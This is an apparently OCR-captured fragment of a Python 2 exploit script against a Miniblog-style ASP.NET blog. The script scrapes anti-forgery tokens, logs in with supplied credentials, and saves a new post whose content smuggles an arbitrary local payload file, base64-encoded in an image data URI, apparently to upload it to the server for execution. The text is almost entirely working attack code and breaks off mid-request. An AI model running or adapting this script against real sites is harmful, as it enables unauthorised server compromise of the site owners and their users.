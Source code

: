 ```python
password = sys.argv[3]
url = sys.argv[1]
payload_path = sys.argv[4]
extension = os.path.splitext(payload_path)[1][1:]

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in xrange(length))

def request_verification_code(path, cookies = {}):
    r = requests.get(url + path, cookies = cookies)
    m = re.search(r'name="?__RequestVerificationToken"?.+?value="?([a-zA-Z0-9\-_]+)"?', r.text)

    if m is None:
        print '\033[1;31;40m[!]\033[0m Failed to retrieve verification token'
        sys.exit(1)

    token = m.group(1)
    cookie_token = r.cookies.get('__RequestVerificationToken')

    return [token, cookie_token]


payload = None
with open(payload_path, 'rb') as payload_file:
    payload = base64.b64encode(payload_file.read())

# Note: login_token[1] must be sent with every request as a cookie.
login_token = request_verification_code('/views/login.cshtml?ReturnUrl=/')
print '\033[1;32;40m[+]\033[0m Retrieved login token'

login_res = requests.post(url + '/views/login.cshtml?ReturnUrl=/', allow_redirects = False, data = {
    'username': username,
    'password': password,
    '__RequestVerificationToken': login_token[0]
}, cookies = {
    '__RequestVerificationToken': login_token[1]
})

session_cookie = login_res.cookies.get('miniblog')
if session_cookie is None:
    print '\033[1;31;40m[!]\033[0m Failed to authenticate'
    sys.exit(1)

print '\033[1;32;40m[+]\033[0m Authenticated as {user}'.format(user = username)

post_token = request_verification_code('/post/new', {
    '__RequestVerificationToken': login_token[1],
    'miniblog': session_cookie
})

print '\033[1;32;40m[+]\033[0m Retrieved new post token'

post_res = requests.post(url + '/post.ashx?mode=save', data = {
    'id': random_string(16),
    'isPublished': True,
    'title': random_string(8),
    'excerpt': '',
    'content': '<img src="data:image/{ext};base64,{payload}" />'.format(ext = extension, payload = payload),
    'categories': '',
    '__RequestVerificationToken': post_token[0]
}, cookies = {
```